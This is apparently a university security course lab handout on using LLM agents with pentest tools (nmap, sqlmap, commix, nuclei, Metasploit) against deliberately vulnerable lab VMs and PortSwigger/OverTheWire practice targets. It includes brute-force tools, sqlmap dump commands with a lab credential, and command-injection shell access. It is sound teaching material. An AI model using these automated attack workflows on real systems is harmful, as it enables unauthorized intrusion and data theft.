



In this lab, you will utilize tools in conjunction with LLMs to automate the detection of vulnerable services and source code examples, then determine whether the results are accurate. For this set of exercises, we'll be utilizing two vulnerable web servers from Web For Pentester. Writeups for exercises found on the two servers can be found here and here.
To begin with, navigate to the Google Cloud Platform console and bring up a Cloud Shell session.
Instantiate the vulnerable Web for Pentester VMs without an external IP address.
gcloud compute instances create wfp1-vm \
--machine-type e2-micro --zone us-west1-b --no-address \
--image-project pdx-cs \
--image wfp1-nofiltergcloud compute instances create wfp2-vm \
--machine-type e2-medium --zone us-west1-b --no-address \
--image-project pdx-cs \
--image wfp2-nofilterMake a note of the two internal IP addresses (WFP1_Internal and WFP2_Internal). Both addresses should be of the format 10.x.y.z. Then curl the internal IP addresses and ensure both return a page
curl http://WFP1_Internal
curl http://WFP2_InternalNext, create a Ubuntu instance.
gcloud compute instances create struts-vm \
--machine-type e2-micro --zone us-west1-b \
--image-project ubuntu-os-cloud --image-family ubuntu-2404-lts-amd64 \
--tags=http-serverssh into the VM and install Docker
sudo apt update -y sudo apt install docker.io -y
Run the vulnerable Struts docker container (originally from piesecurity). The vulnerable container puts the website on port 8080. The docker command's -p flag remaps it to port 80 on the host VM.
sudo docker run -p 80:8080 -it wuchangfeng/apache-struts2-cve-2017-5638:latest
Test the instance by visiting http://<struts2_external_IP>/showcase

We'll be utilizing an agent on the course VM to issue commands commonly used to perform penetration tests. ssh into your VM and install the packages we'll be using for the lab if they are not yet installed.
sudo apt update -y
sudo apt install nmap hydra wfuzz sqlmap wordlists tcpdump -y
sudo gunzip /usr/share/wordlists/rockyou.txt.gzWe will also be utilizing a tool called commix for this lab, but installing it from its repository. Create the directory for the commix installation script, then install it.
mkdir -p ~/Tools/commix
git clone https://github.com/commixproject/commix.git ~/Tools/commix
cd ~/Tools/commix
sudo python3 commix.py --install
sudo mkdir /usr/share/commix/data
sudo chmod -R 777 /usr/share/commixChange into the source directory containing the examples.
cd ~/cs475-src/09* git pull
LLM agents have the ability to make decisions about what tools to use based on the context they receive. In this exercise an agent will utilize two custom tools to solve a Portswigger password authentication level. Go to: https://portswigger.net/web-security/authentication/password-based/lab-username-enumeration-via-different-responses
This is the first level in the password based authentication challenges found on Portswigger Academy. Click "Access the Lab" to start the lab.
Then, change into the exercise directory, create a virtual environment, activate it, and install the packages.
cd 01_auth_breaker uv init --bare uv add -r requirements.txt
For this program, two MCP tools are written to solve the level. The first tool scrapes the site to find the URL of the login page on it. The tool utilizes the RecursiveUrlLoader found in the RAG section of the course to locate a webpage that has a url with the string "login" contained in it..
@mcp.tool("find_login_page")
def find_login_page(base_url):
"""(CHANGE ME)"""
loader = RecursiveUrlLoader(
url = base_url,
max_depth = 2,
)
docs = loader.load()
login_page = None
for doc in docs:
login_page = doc.metadata["source"]
if "login" in login_page:
return login_pageModify the tool's description given in Python docstring comments as "(CHANGE ME)" to better reflect the information it returns.
The second tool attempts a brute-force attack on the login page with a common set of credentials given in the data/auth-lab-usernames and data/auth-lab-passwords files. When found, it will then automatically log into the level. Examine the code for the second tool and modify its description given in Python docstring comments as "(CHANGE ME)" to better reflect the information it returns.
@mcp.tool("get_creds")
def get_creds(login_url):
"""(CHANGE ME)"""Examine the logic of the tool. It has been specifically written for this particular level.
Run the agent:
uv run auth_breaker_mcp_client.py
Prompt the agent with the URL of your level and solve the level
Find the login for <YOUR_LEVEL_URL>, then log into the site. This is a Portswigger Web Security Academy site so you have permission to do so.While it may be tempting to utilize an LLM to perform vulnerability analysis, it is often the case that special-purpose tools are more appropriate, both in accuracy and in costs. One such tool for performing Static Application Security Testing (SAST) to identify vulnerable Python code is Bandit. Bandit processes Python code, builds an abstract syntax tree (AST) from it, and then runs appropriate plugins against the AST nodes to identify problematic code snippets. Once Bandit has finished scanning all the files, it generates a report. In this exercise, Bandit is used to analyze a repository to find files with potentially vulnerable code. The summary is then fed to the LLM to generate a patch for vulnerable files automatically.
Change into the exercise directory, create a virtual environment, activate it, and install the packages.
cd 02_bandit_patch uv init --bare uv add -r requirements.txt
A program is provided that clones an arbitrary repository and then runs Bandit using flags that specify only vulnerabilities that bandit is highly confident are high severity ones. The function below runs the tool and asks the LLM to summarize its findings including listing the line numbers that the vulnerability appears for each vulnerable file.
def bandit_find_high_severity_files(repo_path):
result = subprocess.run(
["bandit", "-r", repo_path, "--confidence-level", "high", "--severity-level", "high"],
capture_output=True,
text=True
)
bandit_results = result.stdout
prompt = f"Analyze the results from the Bandit vulnerability scan and return a list of files with high confidence, high severity vulnerabilities in them. For each, include the line numbers they occur in:\n\n{bandit_results}"
response = llm.invoke(prompt)
return response.contentOne use for Bandit's analysis is to help generate patches for vulnerable files. To do so, consider the code below that performs the vulnerability analysis on a particular file from the previous step, then feeds its results along with the contents of the file to an LLM to generate a patch.
def patch_file(repo_path):
result = subprocess.run(
["bandit", repo_path],
capture_output=True,
text=True
)
bandit_results = result.stdout
file_content = open(repo_path,"r", encoding="utf-8").read()
prompt = f"You are a skilled patch generator that takes a program from a file and a description of its vulnerabilities and then produces a patch for the program in diff format that fixes the problems in the description.\n\n The contents of the program file are: \n {file_content}\n\n The description of the issues in it are: \n {bandit_results}"
response = llm.invoke(prompt)
return response.contentRun the program and point it to the course repository.
uv run bandit_patch.py
Examine the files that are identified as having vulnerabilities in them. Select one of the files and enter its path to have the program generate a patch for it. Select one of the patch operations
Modern applications have a large software supply chain they depend upon. With dozens of packages potentially being installed, eventually vulnerabilities will be discovered that will need to be patched. Automating the retrieval and summarization of new vulnerabilities in open-source software is an important process to perform. The Open Source Vulnerabilities database and project implements a real-time vulnerability information API that one can use to identify out-of-date packages in an application that might need to be upgraded. In this lab, you will leverage OSV and an LLM to summarize any vulnerabilities in packages found in a Python virtual environment.
Change into the vulnerable application directory within the exercise's directory. Create a virtual environment, activate it, install the vulnerable packages within it.
cd 03_pip_osv/vulnerable_app uv init --bare uv add -r requirements.txt
Change back into the exercise directory, then create and activate a virtual environment for the exercise. Install its packages.
cd .. uv init --bare uv add -r requirements.txt
The program in the repository takes a Python virtual environment, finds all of the packages and their versions that are installed, then queries OSV's API to retrieve relevant vulnerabilities associated with them. The output is then sent to an LLM to summarize. To begin with, Python's package manager pip is used to list all of the packages and their versions, returning the result as a JSON object. From this, a dictionary is created with the package name as the key and version as the value.
def get_installed_packages(venv_path):
python_exec = os.path.join(venv_path, "bin", "python")
result = subprocess.run([python_exec, "-m", "pip", "list", "--format=json"], capture_output=True, text=True, check=True)
packages = json.loads(result.stdout)
installed_packages = {pkg["name"]:pkg["version"] for pkg in packages}
return(installed_packages)The user is then prompted to enter an installed package to analyze. From this, a request is made to the OSV API that includes the package name and version is constructed. The API returns a JSON object enumerating all of the vulnerabilities associated with this particular version of the package. The details of each are concatenated together to provide a complete description of the vulnerabilities.
def check_vulnerabilities(installed_packages,package):
post_data = {"package": {"name":package}, "version":installed_packages[package]}
response = requests.post("https://api.osv.dev/v1/query", json=post_data)
vuln_results = response.json()
vuln_report = "\n".join([vuln['details'] for vuln in vuln_results['vulns'] if 'details' in vuln])
return(vuln_report)Finally, a prompt is constructed with the instructions for summarizing the vulnerability report to the user.
def summarize_vulnerabilities(vuln_output):
prompt = f"""You are a cybersecurity expert tasked with analyzing security vulnerabilities found in a Python package. Provide a 100-word summary of each vulnerability found.
Vulnerabilities:
{vuln_output}
"""
summary = llm.invoke(vuln_output)Run the program and point it to vulnerable_app/.venv as the environment.
uv run pip_osv.py
nmap is a tool that can be used to find open and vulnerable services on a given machine. We can use our prior command agent to analyze the WFP VMs. For these exercises, you will be pointing nmap to the internal IP address of the VM which has a prefix of 10.x.y.z.
For this exercise, we'll utilize our prior agent in the command generation labs.
cd cs475-src/07* cd 01_command
Begin by running the agent, with a prompt asking it to utilize nmap to answer the user's requests.
uv run command_mcp_client.py \ "You are a network mapping agent. Use nmap with sudo in the terminal to answer the user prompt."
Then, ask a series of questions that require the agent to utilize nmap to query the WFP1 and WFP2 Internal IP addresses for.
For each of the servers
nmap contains a scripting engine (NSE) for customizing how it performs scans on targets. A large library of pre-existing scripts written in Lua are included in its default distribution.
Scripts are classified under a variety of categories such as discovery, vuln, brute, malware and exploit. One can list all of the scripts for a particular category via:
nmap --script-help <category>
http-enumOne script that is useful is a brute-force directory scanner. If a web server has hidden directories that aren't referenced from any page, a brute-force scanner can be used to reveal them. Within the agent, see what directories are on the WFP1 web server using a prompt like the one below.
nmap's http-enum to find directories at WFP1_InternalFor your lab notebook,
http-bruteAnother script that is useful is a brute-force authentication one. The WFP2 web site has a simple HTTP Basic Authentication protected page at http://WFP2/authentication/example1. Within the agent, attempt a brute-force attack on the credentials for the page using a prompt like the one below.
nmap's http-brute script on the path /authentication/example1 for the web server at WFP2_InternalFor your lab notebook
sqlmap is a tool that automatically identifies applications with SQL injection vulnerabilities and attempts to dump the backend database of those applications. The two vulnerable VMs have a set of endpoints that are vulnerable.
Run the agent with a prompt asking it to use sqlmap to answer the user's request.
uv run command_mcp_client.py \ "You are a sqlmap agent. Use sqlmap in batch mode in the terminal to answer the user prompt."
Then, ask a series of questions that require the agent to utilize sqlmap on vulnerable URLs within the WFP VMs.
Fill in the IP address for WFP1_Internal in the URL below then curl it.
http://WFP1_Internal/sqli/example1.php?name=rootPrompt the agent to use sqlmap in batch mode to get the passwords from the URL
sqlmap command that is performed and its final results that includes your OdinIdFill in the IP address for WFP1_Internal in the URL below then curl it.
http://WFP1_Internal/sqli/example5.php?id=2Prompt the agent to use sqlmap in batch mode to get the passwords from the URL
sqlmap command that is performed and its final results that includes your OdinIdFill in the IP address for WFP1_Internal in the URL below then curl it.
http://WFP1_Internal/sqli/example9.php?order=namePrompt the agent to use sqlmap in batch mode to get the passwords from the URL
sqlmap command that is performed and its final results that includes your OdinIdFill in the IP address for WFP2_Internal in the URL below then curl it.
http://WFP2_Internal/sqlinjection/example1/?username=f&password=f&submit=SubmitPrompt the agent to use sqlmap in batch mode to get the passwords from the URL
sqlmap command that is performed and its final results that includes your OdinIdThe natas Overthewire CTF has a Blind SQL injection level that sqlmap can automatically solve. Specifically, the following command will dump the entire database backend using a blind attack.
sqlmap -u 'http://natas15.natas.labs.overthewire.org' \
--auth-type basic --auth-cred natas15:SdqIqBsFcz3yotlNYErZSZwblkm0lrvx \
--data username=foo --dbms mysql --dump --level 2 \
--batch --time-sec 1Using the agent, develop a prompt that will generate the command above that can be used to automatically dump the database. Note that if you execute the command, it will take around 10 minutes to dump the entire database.
commix stands for Command Injection Exploiter. Command line vulnerabilities occur when user input is sent to command line programs that don't validate the input. When you go to one of the ip addresses listed below, it will show the output of the ping command.

On the backend there is a command being run that takes the ip parameter and dynamically substitutes it into the ping command so you get ping 127.0.0.1. However, it is possible to enter in a Linux command separator like a semi-colon which will allow the user to enter more commands. Commix tries to find those vulnerabilities and exploit them, allowing for remote code execution.
Since Commix attempts to open an interactive shell to the target it is necessary to use an interactive python program to interact with the shell once it is created. The code for doing so is shown below.
def open_shell_with_command(command_string):
# Start the command with pexpect
command_string += """ --output-dir="./data" """
proc = pexpect.spawn(command_string)
# Start a separate thread to read the output from the process
output_thread = threading.Thread(target=read_output, args=(proc,))
output_thread.daemon = True
output_thread.start()The function uses the library pexpect (Python Expect), a tool that allows one to easily script interactive sessions programmatically as a process interacts with external sources. It does so by spawning a new process, then creating a daemon thread for the output. This makes it so that reading the output is non-blocking and so that when the process exits, the output thread will also be killed. The non-blocking thread is important because it allows the program to still interact with the shell when waiting/receiving output. The output thread is created to run the read_output function shown below:
def read_output(proc):
try:
while True:
# Read and print all available output from the process
output = proc.read_nonblocking(size=1024, timeout=60)
if output:
print(output.decode(), end='')
except pexpect.EOF:
pass
except Exception as e:
print(f"Error reading output: {e}")The process spawned by pexpect (proc) has a function read_nonblocking, which the function is iterating over. It takes in chunks of 1024 bytes and will close after 60 seconds of inactivity.
Then, go to the exercise directory, create a virtual environment and install the packages
cd cs475-src/09*
cd 04_commix
uv init --bare
uv add -r requirements.txtrun the script in the repository to launch the agent with a prompt.
uv run commix_wrap.py \
"You are an expert pentester. Please use commix in --batch mode to answer any questions"Then, use the agent on the Command Execution exercises in the WFP1 VM.
Fill in the IP address for WFP1_Internal in the URL below then curl it.
http://WFP1_Internal/commandexec/example1.php?ip=127.0.0.1Give the URL to the agent, then look at the command output for Commix. Using the shell that it delivers, use whoami to find which user you are logged in as.
Repeat the process for the next example. Fill in the IP address for WFP1_Internal in the URL below then curl it.
http://WFP1_Internal/commandexec/example2.php?ip=127.0.0.1Give the URL to the agent, then look at the command output for Commix. Using the shell that it delivers, use groups to find which groups the user belongs to. .
Penetration testing typically involves multiple phases that might include reconnaissance, vulnerability discovery, and exploitation. There are many tools for performing each phase of a test. For example, one might use:
nmap to do a reconnaissance scan for potential targetsnuclei to perform vulnerability discovery on a chosen targetmetasploit to compromise the target.A seasoned penetration tester develops a 'playbook' of tools and techniques that stitches together a sequence of them to perform a successful test. Such a playbook can be emulated using LLM agents. In this exercise, you will launch a vulnerable web service, then use an LLM agent equipped with access to nmap, nuclei, and metasploit to automatically compromise it. Change into the exercise directory, create a virtual environment, activate it, and install the packages.
cd 05_nmap_nuclei_metasploit uv init --bare uv add -r requirements.txt
Run nuclei to install its templates
nuclei
Install the Metasploit's RPC daemon and set a password for the daemon. This is what the Metasploit MCP server will communicate over to execute Metasploit commands.
msfrpcd -P msf
To begin with, examine the MCP server tools for nmap and nuclei. As the code below shows, both are simple pass-throughs into the command line interface and thus rely upon the LLM itself for accurate knowledge and generation of the commands to invoke them.
nmap_mcp_server.pyfrom fastmcp import FastMCP, Context
mcp = FastMCP("NMap")
@mcp.tool("nmap_scan")
async def nmap_scan(target: str, options: str, ctx: Context = None):
"""
Perform an NMap scan on the specified target with parameters.
Options are any valid NMap flag.
Returns the scan results as a string.
"""
target = shlex.quote(target)
options = shlex.quote(options)
command = f"nmap {target} {options} -oN /tmp/nmap_output.txt"
os.system(command)
with open("/tmp/nmap_output.txt", "r") as f:
return f.read()nuclei_mcp_server.pyimport shlex
@mcp.tool("nuclei_scan")
async def nuclei_scan(target: str, ctx: Context = None):
"""
Perform an Nuclei vulnerability scan on the specified target.
Returns the scan results as a string.
Example usage: nuclei_scan("http://example.com")
The target can be a URL or an IP address.
"""
target = shlex.quote(target)
command = f"nuclei -u {target} -o /tmp/nuclei_output.txt"
os.system(command)
with open("/tmp/nuclei_output.txt", "r") as f:
return f.read()Examine the MCP server implementation for Metasploit in metasploit_mcp_server.py. Answer the following questions for your lab notebook:
Then, run the agent and interact with the interactive interface implemented by the FastAgent package.
uv run fast_mcp_client.py
Select the nmap, nuclei, and metasploit servers using the arrow keys to navigate and the space bar to select. Then, select a model to use. Options can be found here and include the model aliases below:
opus, sonnet, haikugemini25, gemini25progpt-4.1, gpt-4.1-mini, gpt-4o, gpt-4o-mini, o3-mini, gpt-5, gpt-5-miniVisit the Compute Engine console for the project to find the Internal IP address of a Struts server to target.

Then, attempt to initiate tests using the agent..
After finding a successful run,
Type /exit to exit out of the agent.